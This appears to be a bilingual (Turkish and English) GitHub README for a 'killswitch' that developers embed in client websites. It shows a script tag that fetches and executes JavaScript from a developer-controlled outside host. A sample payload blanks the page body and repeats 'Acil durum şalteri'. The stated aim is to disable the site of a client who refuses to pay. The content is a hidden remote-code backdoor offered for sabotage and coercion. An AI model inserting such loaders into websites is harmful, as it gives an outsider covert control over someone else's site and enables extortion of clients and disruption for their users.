# css-killswitch
The holy CSS killswitch that devastates HTML body.


## Türkçe ##

Eğer benim gibi ufak-orta ölçekli projelerle uğraşıyorsanız, ve proje altyapısı sizin elinizde değilse, yani hosting&domain ikilisi size ait değilse, bu kod işinize yarayacaktır.

```sh
<script type="text/javascript">

jQuery.ajax({

type: "GET",

url: "http://seninelindekibirsite.com/killswitch/acildurum.js",

dataType: "script"

});

</script>
```

bu script tag'inin içindeki get işlemi, sizin kontrolünüz altında olan bir siteden acildurum JS dosyamızı çağırır. Peki acildurum.js'nin içinde ne var?

```sh

/*jQuery("body").css("display","none");
$( "body" ).append( "<p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p>" );*/
```

Tabi ki siteyi kullanılmaz hale getiren ufak bir kod bloğu. Ve paramızı ödemekte problem çıkartan müşteri, götüm götüm bizi kovalamaya başlıyor. Sorun çözüldü!

## English ##

Hey! If you dude work on small-mid range projects and don't own the domain&hosting infrastructure, that code might be the catch for you.





```sh
<script type="text/javascript">

jQuery.ajax({

type: "GET",

url: "http://seninelindekibirsite.com/killswitch/acildurum.js",

dataType: "script"

});

</script>
```

This script tag calls a script from a website you own, and let's see what we got here?

```sh

/*jQuery("body").css("display","none");
$( "body" ).append( "<p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p>" );*/
```

Of course, a code block to get website unaccessible. Client that refuses the pay up will get his/her *ss on fire soon, problem solved!

